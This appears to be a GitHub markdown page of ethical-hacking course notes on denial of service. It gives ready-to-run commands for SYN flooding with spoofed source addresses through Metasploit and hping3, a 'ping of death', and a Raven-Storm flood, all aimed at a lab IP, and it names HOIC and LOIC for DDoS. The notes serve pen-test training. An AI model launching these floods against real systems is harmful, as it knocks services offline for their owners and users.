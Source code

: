 # Module 10

## Denial of Service
DoS and DDoS attacks exploit vulnerabilities in the implementation of TCP/IP model protocol or bugs in a specific OS.

<img width="893" height="257" alt="image" src="https://github.com/user-attachments/assets/7fa5619c-c90c-4b3d-90ad-56143fc6fee8" />
<img width="768" height="259" alt="image" src="https://github.com/user-attachments/assets/e76dfae2-45b0-458f-9ab4-1db6925c83dd" />
<img width="768" height="230" alt="image" src="https://github.com/user-attachments/assets/e44eeaa4-7406-4262-b2fc-b88e4741b644" />

---

### 1. Perform DOS and DDOS with various techniques
As an expert ethical hacker or pen tester, you must have the required knowledge to perform DoS and DDoS attacks to be able to test systems in the target network.

#### 1.1 Perform DOS (syn flooding) using Metasploit
- `use auxillary/dos/tcp/synflood`
- `set RHOST 192.168.18.110`
- `set RPORT 21`
- `set SHOST 192.168.18.1`    \\Spoofed IP
- `exploit`

#### 1.2 Perform DOS attack using HPing3
- `hping3 -S 192.168.18.110 -a 192.168.18.1 -p 22 --flood`
  - `-S` sets the syn flag
  - `-a` spoof the address
  - `--flood`  sends a large no of packets

**Ping of death**
- `hping3 -d 65538 -S -p 22 --flood 192.168.18.110`
  - `-d` sets the data size

#### 1.3 Perform a DOS attack using Rven-Storm
[GitHub - Tmpertor/Raven-Storm: Raven-Storm is a powerful DDoS toolkit for penetration tests, including attacks for several protocols written in python. Takedown many connections using several exotic and classic protocols.](https://github.com/Tmpertor/Raven-Storm)
- `sudo rst`
- `l4`
- `ip 192.168.18.110`
- `port 8080`
- `threads 20000`
- `run`

#### 1.4 Perform DDOS using HOIC
<img width="768" height="340" alt="image" src="https://github.com/user-attachments/assets/7b065862-bfd2-48b6-ae7b-49583312195f" />

#### 1.5 Perform DDOS using LOIC
<img width="768" height="404" alt="image" src="https://github.com/user-attachments/assets/feb9b588-eac4-42ac-8bab-450fd42d5546" />
